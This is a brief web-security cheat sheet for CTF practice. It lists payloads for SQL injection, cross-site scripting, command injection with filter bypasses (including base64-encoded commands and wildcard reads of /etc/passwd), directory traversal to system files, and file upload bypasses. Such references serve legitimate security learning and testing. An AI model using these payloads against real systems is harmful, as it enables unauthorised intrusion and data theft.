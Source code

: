 # Common Web Vulnerabilities Quick Reference

## SQL Injection

### Detection
```sql
-- Test parameters with:
'
"
1'
1"
1' OR '1'='1
1" OR "1"="1
```

### Exploitation
```sql
-- Union-based
' UNION SELECT 1,2,3--
' UNION SELECT version(),user(),database()--

-- Boolean-based
' AND 1=1--  (True)
' AND 1=2--  (False)

-- Time-based
'; WAITFOR DELAY '00:00:05'--
' AND SLEEP(5)--
```

## Cross-Site Scripting (XSS)

### Payloads
```html
<!-- Basic -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>

<!-- Bypass filters -->
<script>alert(String.fromCharCode(88,83,83))</script>
javascript:alert(1)
<img src="javascript:alert(1)">
```

## Command Injection

### Common separators
```bash
; ls
& ls
| ls
&& ls
|| ls
`ls`
$(ls)
```

### Bypass filters
```bash
# Quotes
l's'  # becomes ls
"l"s  # becomes ls

# Wildcards
/bin/c?t /etc/passwd
/bin/cat /etc/pass*

# Encoding
$(echo bHM= | base64 -d)  # decodes to "ls"
```

## Directory Traversal

### Common payloads
```
../../../etc/passwd
..\..\..\..\windows\system32\drivers\etc\hosts
....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

## File Upload Vulnerabilities

### Bypass techniques
```
# Extension bypass
file.php.jpg
file.jpg.php
file.php%00.jpg

# Content-Type bypass
Change Content-Type to image/jpeg

# Magic bytes
Add GIF89a; at beginning of PHP file
```

---
*Web security quick reference for CTF challenges*